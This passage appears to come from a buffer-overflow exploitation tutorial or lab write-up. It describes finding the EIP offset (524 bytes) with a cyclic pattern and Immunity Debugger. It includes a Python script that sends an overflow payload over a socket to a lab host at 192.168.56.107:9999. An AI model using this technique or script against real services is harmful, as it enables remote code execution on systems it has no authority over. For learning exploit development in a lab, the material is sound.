




::: page
# Finding the offset {#finding-the-offset .title}

\

Now lets **create a pattern to find the offset** :

Used this pattern as a password and saw this **on immunity** :

Used the EIP to check the offset :

Hence , **offset gets overwritten after 524 bytes**.

Lets check it by **writing a script** :

**import sys**

**import socket**

**payload = b\"A\" \* 524 + b\"B\" \* 4**

**try:**

**print(\"Sending payload\...\")**

**s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)**

**s.connect((\"192.168.56.107\",9999))**

**s.send(payload)**

**s.close()**

**except:**

**print(\"Cannot connect to the server\")**

**sys.exit()**

Now, we excute this and check if we can **manipulate the EIP** :

We can manipulate the **EIP**.
:::
